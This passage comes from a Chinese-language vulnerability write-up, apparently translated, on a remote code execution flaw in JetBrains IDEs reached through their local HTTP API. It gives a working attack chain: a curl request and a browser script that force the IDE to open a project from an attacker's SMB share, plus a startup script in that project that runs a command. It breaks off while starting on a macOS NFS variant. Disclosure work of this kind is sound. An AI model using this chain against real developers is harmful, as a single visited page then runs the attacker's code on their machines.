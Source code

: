 ```
$ curl -v "http://127.0.0.1:63342/api/internal" --data '`{`"url": "jetbrains://whatever/open/\\smb.example.com\anonshare\testing"`}`'
```



  我们假定受害者的ISP不会阻止SMB出站通信，我们就可以从SMB共享中加载任意项目。

<br>

**Windows****下还有更糟的后果**

我们似乎可以做一些更加有趣的事情，可以通过一个请求使得windows用户从我们的远程SMB共享中下载一个用做攻击的项目。

JetBrains 的IDE每一个项目都有一个启动任务的概念。在PyCharm中，项目加载时会自动运行Python脚本，这就相当于在Android Studio和IntelliJ IDEA 中运行.jar。在下面的示例中，我已经完成了这一点，当项目打开时将会在项目根目录中自动运行hax.py 脚本：

[![](https://p0.ssl.qhimg.com/t015c106d74229bae2f.png)](https://p0.ssl.qhimg.com/t015c106d74229bae2f.png)

[![](https://p1.ssl.qhimg.com/t019f08420c6dd09a1c.png)](https://p1.ssl.qhimg.com/t019f08420c6dd09a1c.png)





现在我们需要在项目根目录中添加一个hax.py文件：



```
import os
 
os.system("calc.exe")
```

我们将该项目放在匿名SMB共享中，然后我们会呈现给受害者加载恶意项目的页面：



```
&lt;script&gt;
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://127.0.0.1:63342/api/internal", true);
xhr.send('`{`"url": "jetbrains://whatever/open/\\\\123.456.789.101\\anonshare\\testing"`}`');
&lt;/script&gt;
```



只要受害者导航到该页面，我们的有效荷载和计算器就会被触发：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01febdfc2b6398e472.jpg)



**OSX****也难逃魔爪**

**<br>**

在这片文章最初发表之后，纽约商品交易所（COMEX）指出，OSX会在用户通过 /net autofs 挂载点访问时自动安装远程 NFS 共享。这就意味着利用OSX下的RCE就类似于利用WINDOWS下的IDE。我们创建一个匿名NFS共享并打开/net/&lt;hostname&gt;/&lt;sharename&gt;/&lt;projectname&gt;：

